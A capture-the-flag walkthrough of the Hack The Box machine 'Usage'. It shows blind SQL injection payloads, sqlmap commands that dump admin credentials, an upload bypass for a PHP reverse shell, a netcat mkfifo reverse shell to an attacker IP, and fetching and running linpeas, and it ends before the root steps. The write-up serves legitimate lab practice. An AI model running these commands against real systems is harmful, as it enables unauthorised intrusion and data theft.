


# Walkthrough - Usage, a Hack The Box machine

## About the machine

| data       |                                                   |
| ---------- | ------------------------------------------------- |
| Machine    | Usage                                             |
| Platform   | Hackthebox                                        |
| url        | [link](https://app.hackthebox.com/machines/Usage) |
| OS         | Linux                                             |
| Difficulty | Easy                                              |
| Points     | 20                                                |
| ip         | 10.10.11.18                                       |

## Getting user.txt flag

### Enumeration

```bash
sudo nmap -sV -sC $ip -p-
```

Results:
 Port 22 and 80.


### Browsing the app

After entering in http://10.10.11.18, a dns error is displayed. The page is redirected to http://usage.htb.

I will add that line in my host resolver config file.

```bash
# testing for an existing file
echo "10.10.11.18    http://usage.htb" >> /etc/hosts
```

The application is simple. A Login pannel with a "Remember your password" link. An other links to an admin login pannel and a logout feature. Enumeration techniques also gives us some ideas about Laravel framework being in use.

After testing the login form and the remember your password form, I can detect a SQL injection vulnerability in the remember your password form.

Previously I registered a user lala@lala.com.



Payloads for manual detection:

```
lala@lala.com' AND 1=1;-- -
```


```
lala@lala.com' AND 1=1;-- -
```


Now, we know that we have a SQL injection, Blind with the AND Boolean technique, so we can use sqlmap with --technique flag set to BUT. We can also save time using the flag `--dbms` to indicate that is a mysql database:


```
sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog --tables --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog -T admin_users --dump --threads 3
```


#### Upload a reverse shell

The admin profile can be edited. The upload feature for the avatar image is vulnerable. 

First, I tried to upload a php file, but files extensions are sanitized client side.




Then, I uploaded a php reverse shell file using jpg extension. The file was uploaded but it was not executable.


Finally I used Burpsuite and intercepted the upload of my ivan.jpg file. During the interception I modified the extension to php.


Finally the reverse shell worked. But for a limited period of time (see steps 1 and 2). Time enough to set up a hook and establish a new connection (see steps 2 and 3) with a  [bash reverse shell](reverse-shells.md)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.49 4444 >/tmp/f
```


#### Getting user.txt

First, I spawned a shell:

```
SHELL=/bin/bash script -q /dev/null
```

and printed out the flag:

```
cat /home/dash/user.txt
```


## Getting root.txt

First, I perform a lateral movement to the other user present in the machine. For that I cat the /etc/passwd file and I run linpeas.sh script in the machine. 

### Lateral movement

Enumerate other users with access to a bash terminal:

```
cat /etc/passwd | grep -E ^*/bin/bash$
```

Results:

```
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```


Upload the script [linpeas](linpeas.md) to the victims machine.

```
################
# In the attacker machine
###############
# Download the script from the release page
curl https://github.com/peass-ng/PEASS-ng/releases/download/20240414-ed0a5fac/linpeas.sh

# Copy the file to the root of your apache server
cp linpeas.sh /var/wwww/html

# Start your server 
service apache2 start
# Turn it off once you have served your file

################
# From the victim machine
################
# Download the script from the release page or from the attacker server
wget http://attackerIP/linpeas.sh

# Run the script
chmod +x linpeash.sh
./linpeas.sh
```


Some interesting takeaways from the linpeas.sh results:


